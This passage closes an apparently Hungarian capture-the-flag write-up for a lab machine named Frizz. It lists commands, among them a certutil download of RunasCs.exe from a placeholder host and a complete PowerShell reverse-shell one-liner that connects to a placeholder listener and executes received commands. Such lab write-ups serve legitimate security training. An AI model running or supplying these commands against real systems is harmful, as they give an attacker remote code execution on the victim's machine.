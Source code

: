 ```
gpupdate /force
```

## Shell download certutil-lal

```
certutil -urlcache -split -f "http://<ip>:<port>/RunasCs.exe" RunasCs.exe
```

## Reverse shell parancs (PowerShell)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

---

## **Ez volt a Frizz gép! Köszi, hogy végigküzdötted!**

Szép chain, sok szívás, de még több tanulás! 🚀

